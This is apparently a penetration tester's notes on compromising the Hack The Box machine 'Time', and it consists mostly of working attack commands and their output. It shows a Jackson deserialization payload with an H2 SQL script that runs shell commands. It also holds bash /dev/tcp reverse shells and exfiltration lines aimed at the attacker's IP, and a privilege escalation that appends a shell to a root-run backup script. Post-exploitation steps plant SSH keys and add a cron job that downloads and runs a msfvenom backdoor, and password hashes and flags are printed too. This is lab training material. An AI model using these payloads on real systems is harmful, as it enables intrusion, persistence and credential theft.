






# 00 - Loot

Valid Credentials:

| Service | Username | Password |
| ------- | -------- | -------- |
|         |          |          |
|         |          |          |
|         |          |          |

Valid Usernames

```
root
pericles
```

Passwords

```

```

Emails

```

```

Hashes

```
root:$6$tQUjJ4lm/s2nyGlV$ApmVk8.fwtUjA7XlmZn3dn7hATdrg1if1nKnRBu9qrbF6rB5dfiwpkz7gQhdr5YIeqqKjBGif06acgM3stn991:18542:0:99999:7:::
pericles:$6$YOMYdS0p3ng0k1nt$9zl46l.fFGclrb.YxhdZjgX/VxbF8QCaQqfSUtCGuYSzzKjMWnL.m.TDcnOdt1vJKrcKY7Ac8y/6n4mK/eb0A/:1
```

Flags

```
27375f967f43232f20b6be8a65b5e0d0 root
711774b9b506ca845cafcf4fef21774d user
```


# 10 - Reconnaissance

## Port scanning - Nmap

### TCP

Initial scan

```
→ root@kali «time» «10.10.14.19» 
$ mkdir nmap; nmap -sC -sV -oA nmap/10-initial-time 10.10.10.214 
Starting Nmap 7.80 ( https://nmap.org ) at 2021-05-08 07:29 EDT
Nmap scan report for 10.10.10.214
Host is up (0.069s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.18 seconds
```

Full scan

```

```

# 15 - Enumeration

## TCP 80 - Website


### Testing inputs

Input beautify: `{"test": "iamf"}` 


Input validate: `{"test": "iamf"}`.

It returns the following error.

```text
Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token (START_OBJECT), expected START_ARRAY: need JSON Array to contain As.WRAPPER_ARRAY type information for class java.lang.Object
```


Searching the error message on Google, I came across to this site https://www.baeldung.com/jackson-inheritance#1-global-default-typing. 

It wanted an array input. 

```
[ 
"org.baeldung.jackson.inheritance.Truck",
{ "make": "Isuzu", "model": "NQR","payloadCapacity": 7500.0 }
]
```

The verification still returned a verification failed, but there is no unhandled exception anymore.


I might be able inject the "org.baeldung.jackson.inheritance.Truck" with a java gadget class for deserialization attack.

### Vulnerability

After searching around about deserialization topics on Jackson, I came across to this two posts:

- [Exploiting the Jackson RCE: CVE-2017-7525 - Adam Caudill](https://adamcaudill.com/2017/10/04/exploiting-jackson-rce-cve-2017-7525/)
- [Jackson gadgets - Anatomy of a vulnerability · Doyensec's Blog](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html)

However, the post on Doyensec's blog is newer (2019 vs 2017). So I dig into that blog. 

The researcher uses `ch.qos.logback.core.db.DriverManagerConnectionSource` as his gadget class, and leveraging the alias feature from H2 database to execute arbitrary code. Below is the example payload.

```json
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://localhost:8000/inject.sql'"}]
```

The research about "Jackson gadgets" on Doyensec's blog is classified as CVE-2019-12384.

# 20 - Foothold

## Jackson CVE-2019-12384 

### Initial PoC

I'll use the following `inject.sql` (taken from the "Jackson gadgets" post).

```java
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('id > exploited.txt')
```

Then, I'll setup a Python web server to host the SQL file.

```bash
→ root@kali «time» «10.10.14.19» 
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Now I'll use the following JSON line and send it to the validator

```json
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.19/inject.sql'"}]
```

Within a few sec, my Python web server receives a request for `inject.sql`.



But I can't find the `exploited.txt` on the website, so I send another one but this time I modified the `inject.sql` to exfil the output to my `nc` listener.

```java
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
	String[] command = {"bash", "-c", cmd};
	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
	return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('id > /dev/tcp/10.10.14.19/9000')
```

And it works.


### Weaponization - Reverse Shell

I'll use the following `inject.sql` to send myself a shell, and then perform the same procedure as above.

```java
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
	String[] command = {"bash", "-c", cmd};
	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
	return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i >& /dev/tcp/10.10.14.19/9000 0>&1')
```

Now I have a shell on my listener.

```bash
→ root@kali «time» «10.10.14.19» 
$ nc -nvlp 9000            
listening on [any] 9000 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.214] 42496
bash: cannot set terminal process group (944): Inappropriate ioctl for device
bash: no job control in this shell
pericles@time:/var/www/html$ 
```


### Upgrade to SSH

```
pericles@time:/var/www/html$ ls -l ~/.ssh                                                                             ls -l ~/.ssh                                                                                                         
ls: cannot access '/home/pericles/.ssh': No such file or directory
pericles@time:/var/www/html$ cd ~                                               
cd ~ 
pericles@time:/home/pericles$ mkdir .ssh
mkdir .ssh
pericles@time:/home/pericles$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPmWTx2r3W2mHnCnKmoJCnkrj6mXxSIGq3E5ks1g+moK' > .ssh/authorized_keys
<moJCnkrj6mXxSIGq3E5ks1g+moK' > .ssh/authorized_keys
pericles@time:/home/pericles$ 
```

```
→ root@kali «time» «10.10.14.19» 
$ ssh pericles@10.10.10.214 
The authenticity of host '10.10.10.214 (10.10.10.214)' can't be established.
ECDSA key fingerprint is SHA256:sMBq2ECkw0OgfWnm+CdzEgN36He1XtCyD76MEhD/EKU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.214' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-52-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 08 May 2021 02:14:23 PM UTC

  System load:             0.0
  Usage of /:              21.2% of 27.43GB
  Memory usage:            16%
  Swap usage:              0%
  Processes:               235
  Users logged in:         0
  IPv4 address for ens160: 10.10.10.214
  IPv6 address for ens160: dead:beef::250:56ff:feb9:a553


168 updates can be installed immediately.
47 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Fri Oct 23 09:19:19 2020 from 10.10.14.5
pericles@time:~$ id
uid=1000(pericles) gid=1000(pericles) groups=1000(pericles)
```



# 25 - Privilege Escalation

## Internal Enumeration

Local users who has a shell.

```
pericles@time:/home/pericles$ cat /etc/passwd | grep sh$
cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
pericles:x:1000:1000:Pericles:/home/pericles:/bin/bash
```

Finding files

```
pericles@time:~$ find / -type f -user pericles 2>/dev/null |grep -v 'proc\|sys'
/usr/bin/timer_backup.sh
/dev/shm/payloadds9LXy
/home/pericles/.gnupg/trustdb.gpg
/home/pericles/.gnupg/pubring.kbx
/home/pericles/.bashrc
/home/pericles/.bash_logout
/home/pericles/user.txt
/home/pericles/.ssh/authorized_keys
/home/pericles/.profile
/home/pericles/snap/lxd/17886/.config/lxc/config.yml
/home/pericles/snap/lxd/17936/.config/lxc/config.yml
/home/pericles/.cache/motd.legal-displayed
/opt/json_project/parse.rb
/opt/json_project/classpath/h2-1.4.199.jar
/opt/json_project/classpath/jackson-databind-2.9.8.jar
/opt/json_project/classpath/logback-core-1.3.0-alpha5.jar
/opt/json_project/classpath/jackson-core-2.9.8.jar
/opt/json_project/classpath/jackson-annotations-2.9.8.jar
```

```
pericles@time:~$ cat /usr/bin/timer_backup.sh
#!/bin/bash
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
pericles@time:~$ ls -l /usr/bin/timer_backup.sh 
-rwxrw-rw- 1 pericles pericles 88 Apr 10 21:05 /usr/bin/timer_backup.sh
pericles@time:~$ cat /usr/bin/timer_backup.sh 
#!/bin/bash
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
```

```
pericles@time:~$ find / -type f -name "timer_backup*" -ls 2>/dev/null
   795750      4 -rw-r--r--   1 root     root          214 Oct 23 06:46 /etc/systemd/system/timer_backup.timer
   787186      4 -rw-r--r--   1 root     root          159 Oct 23 05:59 /etc/systemd/system/timer_backup.service
  1317302      4 -rwxrw-rw-   1 pericles pericles       88 Apr 10 21:10 /usr/bin/timer_backup.sh
```

`timer_backup.timer`:

```text
pericles@time:~$ cat /etc/systemd/system/timer_backup.timer 
[Unit]
Description=Backup of the website
Requires=timer_backup.service

[Timer]
Unit=timer_backup.service
#OnBootSec=10s
#OnUnitActiveSec=10s
OnUnitInactiveSec=10s
AccuracySec=1ms

[Install]
WantedBy=timers.target
```

`timer_backup.service`:

```text
pericles@time:~$ cat /etc/systemd/system/timer_backup.service 
[Unit]
Description=Calls website backup
Wants=timer_backup.timer
WantedBy=multi-user.target

[Service]
ExecStart=/usr/bin/systemctl restart web_backup.service
```

`timer_backup.sh`:

```text
pericles@time:~$ cat /etc/systemd/system/web_backup.service
[Unit]
Description=Creates backups of the website

[Service]
ExecStart=/bin/bash /usr/bin/timer_backup.sh
```


## Exploiting timer_backup.sh

```bash
pericles@time:~$ echo 'bash -i >& /dev/tcp/10.10.14.19/9002 0>&1' >> /usr/bin/timer_backup.sh 
pericles@time:~$ cat /usr/bin/timer_backup.sh 
#!/bin/bash
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
bash -i >& /dev/tcp/10.10.14.72/9002 0>&1
pericles@time:~$
```

```
→ root@kali «time» «10.10.14.19» 
$ rlwrap nc -nvlp 9002
listening on [any] 9002 ...
connect to [10.10.14.72] from (UNKNOWN) [10.10.10.214] 57648
bash: cannot set terminal process group (411032): Inappropriate ioctl for device
bash: no job control in this shell
root@time:/# 
root@time:/# exit
```



```text
→ root@kali «time» «10.10.14.19» 
$ nc -nvlp 9002                          
listening on [any] 9002 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.214] 34182
bash: cannot set terminal process group (65312): Inappropriate ioctl for device
bash: no job control in this shell
root@time:/#  echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPmWTx2r3W2mHnCnKmoJCnkrj6mXxSIGq3E5ks1g+moK' > /root/.ssh/authorized_keys
<rj6mXxSIGq3E5ks1g+moK' > /root/.ssh/authorized_keys
root@time:/# exit
```

```
→ root@kali «time» «10.10.14.19» 
$ ssh root@10.10.10.214
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-52-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 08 May 2021 02:26:55 PM UTC

  System load:             0.0
  Usage of /:              21.2% of 27.43GB
  Memory usage:            16%
  Swap usage:              0%
  Processes:               235
  Users logged in:         0
  IPv4 address for ens160: 10.10.10.214
  IPv6 address for ens160: dead:beef::250:56ff:feb9:a553


168 updates can be installed immediately.
47 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Feb  9 14:41:33 2021
root@time:~# id
uid=0(root) gid=0(root) groups=0(root)
root@time:~# cut -c-16 root.txt 
27375f967f43232f
root@time:~# 
```




# 30 - Post Exploit

## Installing backdoor via cron

Payload

```
→ root@kali «time» «10.10.14.19»
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.19 LPORT=9001 -f elf -o iamf.bd
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: iamf.bd
```

Cron

```
root@time:/var/log# echo '* * * * * root cd /tmp; wget 10.10.14.19/iamf.bd && chmod +x iamf.bd && ./iamf.bd; rm /etc/cron.d/iamf' > /etc/cron.d/iamf
```



## Information gathering

### OS

```
root@time:/# uname -a
Linux time 5.4.0-52-generic #57-Ubuntu SMP Thu Oct 15 10:57:00 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
root@time:/# cat /etc/*-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=20.04
DISTRIB_CODENAME=focal
DISTRIB_DESCRIPTION="Ubuntu 20.04 LTS"
NAME="Ubuntu"
VERSION="20.04 LTS (Focal Fossa)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 20.04 LTS"
VERSION_ID="20.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=focal
UBUNTU_CODENAME=focal
```


### Networking

```
root@time:~# w
 10:00:54 up 1 day,  1:50,  1 user,  load average: 0.73, 0.58, 0.33
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     pts/0    10.10.14.19      08:53    0.00s  0.38s  0.00s w
root@time:~# cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 time

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
root@time:/# netstat -tlupn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      654/systemd-resolve
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      899/sshd: /usr/sbin
tcp6       0      0 :::80                   :::*                    LISTEN      944/apache2
tcp6       0      0 :::22                   :::*                    LISTEN      899/sshd: /usr/sbin
udp        0      0 127.0.0.53:53           0.0.0.0:*                           654/systemd-resolve
root@time:/# ifconfig
ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.214  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 dead:beef::250:56ff:feb9:a553  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:a553  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:a5:53  txqueuelen 1000  (Ethernet)
        RX packets 493008  bytes 68920097 (68.9 MB)
        RX errors 0  dropped 516  overruns 0  frame 0
        TX packets 461643  bytes 194182857 (194.1 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 249319  bytes 17728944 (17.7 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 249319  bytes 17728944 (17.7 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
        
```


### Crontab

```
root@time:~# crontab -l
# Edit this file to introduce tasks to be run by cron.
#
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
#
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').
#
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
#
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
#
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
#
# For more information see the manual pages of crontab(5) and cron(8)
#
# m h  dom mon dow   command
*/5 * * * * cp /root/timer_backup.sh /usr/bin/timer_backup.sh; chown pericles:pericles /usr/bin/timer.sh; chmod 766 /usr/bin/timer_backup.sh
* * * * * /usr/bin/systemctl restart timer_backup.timer
```


### Processes

```
root@time:/# ps -ef --forest
UID          PID    PPID  C STIME TTY          TIME CMD
root           2       0  0 May08 ?        00:00:00 [kthreadd]
root           3       2  0 May08 ?        00:00:00  \_ [rcu_gp]
root           4       2  0 May08 ?        00:00:00  \_ [rcu_par_gp]
root           6       2  0 May08 ?        00:00:00  \_ [kworker/0:0H-kblockd]
root           9       2  0 May08 ?        00:00:00  \_ [mm_percpu_wq]
root          10       2  0 May08 ?        00:00:07  \_ [ksoftirqd/0]
root          11       2  0 May08 ?        00:00:39  \_ [rcu_sched]
root          12       2  0 May08 ?        00:00:00  \_ [migration/0]
root          13       2  0 May08 ?        00:00:00  \_ [idle_inject/0]
root          14       2  0 May08 ?        00:00:00  \_ [cpuhp/0]
root          15       2  0 May08 ?        00:00:00  \_ [cpuhp/1]
root          16       2  0 May08 ?        00:00:00  \_ [idle_inject/1]
root          17       2  0 May08 ?        00:00:00  \_ [migration/1]
root          18       2  0 May08 ?        00:00:06  \_ [ksoftirqd/1]
root          20       2  0 May08 ?        00:00:00  \_ [kworker/1:0H-kblockd]
root          21       2  0 May08 ?        00:00:00  \_ [kdevtmpfs]
root          22       2  0 May08 ?        00:00:00  \_ [netns]
root          23       2  0 May08 ?        00:00:00  \_ [rcu_tasks_kthre]
root          24       2  0 May08 ?        00:00:00  \_ [kauditd]
root          26       2  0 May08 ?        00:00:00  \_ [khungtaskd]
root          27       2  0 May08 ?        00:00:00  \_ [oom_reaper]
root          28       2  0 May08 ?        00:00:00  \_ [writeback]
root          29       2  0 May08 ?        00:00:00  \_ [kcompactd0]
root          30       2  0 May08 ?        00:00:00  \_ [ksmd]
root          31       2  0 May08 ?        00:00:00  \_ [khugepaged]
root          78       2  0 May08 ?        00:00:00  \_ [kintegrityd]
root          79       2  0 May08 ?        00:00:00  \_ [kblockd]
root          80       2  0 May08 ?        00:00:00  \_ [blkcg_punt_bio]
root          82       2  0 May08 ?        00:00:00  \_ [tpm_dev_wq]
root          83       2  0 May08 ?        00:00:00  \_ [ata_sff]
root          84       2  0 May08 ?        00:00:00  \_ [md]
root          85       2  0 May08 ?        00:00:00  \_ [edac-poller]
root          86       2  0 May08 ?        00:00:00  \_ [devfreq_wq]
root          87       2  0 May08 ?        00:00:00  \_ [watchdogd]
root          90       2  0 May08 ?        00:00:00  \_ [kswapd0]
root          91       2  0 May08 ?        00:00:00  \_ [ecryptfs-kthrea]
root          93       2  0 May08 ?        00:00:00  \_ [kthrotld]
root          94       2  0 May08 ?        00:00:00  \_ [irq/24-pciehp]
root          95       2  0 May08 ?        00:00:00  \_ [irq/25-pciehp]
root          96       2  0 May08 ?        00:00:00  \_ [irq/26-pciehp]
root          97       2  0 May08 ?        00:00:00  \_ [irq/27-pciehp]
root          98       2  0 May08 ?        00:00:00  \_ [irq/28-pciehp]
root          99       2  0 May08 ?        00:00:00  \_ [irq/29-pciehp]
root         100       2  0 May08 ?        00:00:00  \_ [irq/30-pciehp]
root         101       2  0 May08 ?        00:00:00  \_ [irq/31-pciehp]
root         102       2  0 May08 ?        00:00:00  \_ [irq/32-pciehp]
root         103       2  0 May08 ?        00:00:00  \_ [irq/33-pciehp]
root         104       2  0 May08 ?        00:00:00  \_ [irq/34-pciehp]
root         105       2  0 May08 ?        00:00:00  \_ [irq/35-pciehp]
root         106       2  0 May08 ?        00:00:00  \_ [irq/36-pciehp]
root         107       2  0 May08 ?        00:00:00  \_ [irq/37-pciehp]
root         108       2  0 May08 ?        00:00:00  \_ [irq/38-pciehp]
root         109       2  0 May08 ?        00:00:00  \_ [irq/39-pciehp]
root         110       2  0 May08 ?        00:00:00  \_ [irq/40-pciehp]
root         111       2  0 May08 ?        00:00:00  \_ [irq/41-pciehp]
root         112       2  0 May08 ?        00:00:00  \_ [irq/42-pciehp]
root         113       2  0 May08 ?        00:00:00  \_ [irq/43-pciehp]
root         114       2  0 May08 ?        00:00:00  \_ [irq/44-pciehp]
root         115       2  0 May08 ?        00:00:00  \_ [irq/45-pciehp]
root         116       2  0 May08 ?        00:00:00  \_ [irq/46-pciehp]
root         117       2  0 May08 ?        00:00:00  \_ [irq/47-pciehp]
root         118       2  0 May08 ?        00:00:00  \_ [irq/48-pciehp]
root         119       2  0 May08 ?        00:00:00  \_ [irq/49-pciehp]
root         120       2  0 May08 ?        00:00:00  \_ [irq/50-pciehp]
root         121       2  0 May08 ?        00:00:00  \_ [irq/51-pciehp]
root         122       2  0 May08 ?        00:00:00  \_ [irq/52-pciehp]
root         123       2  0 May08 ?        00:00:00  \_ [irq/53-pciehp]
root         124       2  0 May08 ?        00:00:00  \_ [irq/54-pciehp]
root         125       2  0 May08 ?        00:00:00  \_ [irq/55-pciehp]
root         126       2  0 May08 ?        00:00:00  \_ [acpi_thermal_pm]
root         127       2  0 May08 ?        00:00:00  \_ [scsi_eh_0]
root         128       2  0 May08 ?        00:00:00  \_ [scsi_tmf_0]
root         129       2  0 May08 ?        00:00:00  \_ [scsi_eh_1]
root         130       2  0 May08 ?        00:00:00  \_ [scsi_tmf_1]
root         132       2  0 May08 ?        00:00:00  \_ [vfio-irqfd-clea]
root         133       2  0 May08 ?        00:00:00  \_ [ipv6_addrconf]
root         143       2  0 May08 ?        00:00:00  \_ [kstrp]
